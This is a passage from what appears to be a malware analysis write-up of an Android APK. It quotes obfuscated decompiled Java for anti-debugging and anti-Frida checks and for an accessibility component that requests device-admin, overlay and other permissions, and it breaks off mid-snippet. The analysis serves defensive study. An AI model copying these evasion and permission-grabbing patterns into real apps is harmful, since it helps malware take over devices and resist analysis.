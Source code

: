 In the class called from the initial APK install we can see that the `onCreate` method attempts to check for a debugger, a local port open, which I assume is frida, and to get application info. Each of these if statements if true will kill the process or application. Below is a brief code snippet of each if, catch, try statement executing this check.

```java
[TRUNCATED]
        if (Boolean.parseBoolean(String.valueOf(c91a971a13.m0e596c8347e011df(cd927992a4.f189008ecf260cf5c12e, Boolean.TRUE)))) {
            if (c72561661b.f633cae70e8b7f91c99b == null) {
                try {
                    c72561661b.f633cae70e8b7f91c99b = new LocalServerSocket(caf5aa5dc1.ma93efdbbced5be26(new byte[]{77, -92, 44, -97, -34, -103, 106, -40, 88, 7, 68, -18, -24, 8, 95, -50}));
                } catch (IOException unused) {
                    System.exit(0);
                }
            }
            c72561661b.m23d443a8e1b725cd();
            if ((caf5aa5dc1.m87e86f56634d7285().getApplicationInfo().flags & 2) != 0) {
                System.exit(0);
            }
            if (Debug.isDebuggerConnected()) {
                System.exit(0);
            }
        }
[TRUNCATED]
```

### Admin Accessibility Component

**Accessibility Services Class `c6b4948086`**

Class `c6b4948086` specific to the Admin component called out in the first post has an intent called  `askUser`  this intent defines various accessibility functions and permissions. Various android settings are asked of the user related to admin, overlay, write_settings, notification, battery, file_access, default_sms, etc. Defined in line 184-352 below is a short snippet. 

```java
[TRUNCATED]
@Override // android.app.Activity
    @SuppressLint({"SetJavaScriptEnabled"})
    public final void onCreate(Bundle bundle) {
        String string;
        super.onCreate(bundle);
        Bundle extras = getIntent().getExtras();
        if (extras != null && (string = extras.getString(caf5aa5dc1.ma93efdbbced5be26(new byte[]{32, 111, 78, -38, -72, 106, 45, 80, -76, -15, 74, 118, 8, -122, 69, 122}))) != null) {
            ccb253bd62.fc83e31617595b8d5bf6 = string;
            new Intent("android.settings.APPLICATION_DETAILS_SETTINGS");
            try {
                if (string.equals("admin")) {
                    if (!cc90dbdde3.mbac6a4aa1ecd0a31(c04f5ddb69.class)) {
                        Intent intent = new Intent("android.app.action.ADD_DEVICE_ADMIN");
                        intent.putExtra("android.app.extra.DEVICE_ADMIN", new ComponentName(this, c04f5ddb69.class));
                        intent.putExtra("android.app.extra.ADD_EXPLANATION", caf5aa5dc1.ma93efdbbced5be26(new byte[]{125, 32, -15, -70, 10, -32, -79, -103, -93, -49, 23, 72, -19, -100, 34, -51}));
                        startActivityForResult(intent, 666);
                    }
                } else if (string.equals("overlay")) {
                    if (!cc90dbdde3.m0f3c12b05dcc6f84()) {
                        try {
                            startActivity(new Intent("android.settings.action.MANAGE_OVERLAY_PERMISSION", Uri.parse(caf5aa5dc1.ma93efdbbced5be26(new byte[]{80, 122, -105, 61, -28, 28, 41, 25, -56, -106, -32, 5, 111, -17, -67, 36}) + getPackageName())).addFlags(268435456).addFlags(1073741824).addFlags(8388608));
```